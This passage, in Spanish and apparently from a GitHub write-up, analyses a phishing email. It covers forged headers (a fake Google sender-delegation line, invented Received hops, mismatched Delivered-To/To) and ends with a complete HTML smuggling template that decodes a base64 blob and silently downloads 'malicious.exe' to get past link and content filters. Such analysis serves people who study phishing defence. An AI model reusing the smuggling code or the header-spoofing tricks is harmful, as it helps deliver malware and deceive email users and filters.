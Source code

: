 ```email
X-Google-Sender-Delegation: c0nfigrealmail@gmail.com Trusted Sender.
```
Este header lo genera Google y es el cumpable de que aparezca que el correo ha sido enviado por mi mismo y que es confiable. Es una inyección de encabezados que trata de dar cierta entidad al correo.

```email
Received: from west.evarmactengiri.com ...
Received: from mta8132.mp2200.com ...
Received: from vmta186.85.lstrk.net ...
Received: from efianalytics.com ...
```
Uso de hops para tratar de simular la recepción del correo y evitar que el bloqueo del origen suponga la detección del phishing.

```email
List-ID: c0nfigrealmail.xt.local
```
Es un header opcional, pero si usas tu nombre de correo pues puede ayudar si no se tiene mucha idea a colarlo. Además le añade complejidad al análisis como tal. 

```email
Delivered-To: me@gmail.com
To: me@aol.com
```
El campo “Delivered-To:” se envia al comienzo, peeeeeeeero puedes tratar de confundir a Gmail (y como se demuestra conseguirlo) incluyendo diferentes referencias al envio sumándolo a los hops. 


## 3. HTLM Smugling
HTML Smuglig es una técnica usada para esconder ficheros en filtros de contenido mediante javascript. Este es un ejemplo de link malicioso real embebido en un phishing:

```HTML
<a href="https://tinyurl.com/MALICIUS_PAYLOAD" target="_blank">
```
Como hemos dicho antes existen controles por parte de tu proveedor o tu antivirus los cuales tratan los enlaces para poder clasificar el mail y reportarlo. 
Los atacantes tenemos formas de evitar estos controles, principalmente usando HTML Smugling. Con esto podemos evitar que se analice el enlace para construir la URL en el navegador en la ejecución. 
Existen multitud de ejemplos como:

```HTML
<html>
   <body>
      <script>
         function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array(len);
            for (var i = 0; i < len; i++) {
                bytes[i] = binary_string.charCodeAt(i); 
            } 
            return bytes.buffer;
         } 
         var file = "BASE64 FILE HERE";
         var data = base64ToArrayBuffer(file);
         var blob = new Blob([data], {type: "octet/stream"});
         var fileName = "malicious.exe";
         var a = document.createElement("a");
         document.body.appendChild(a);
         a.style = "display: none";
         var url = window.URL.createObjectURL(blob);
         a.href = url;
         a.download = fileName;
         a.click();
         window.URL.revokeObjectURL(url);
      </script>
```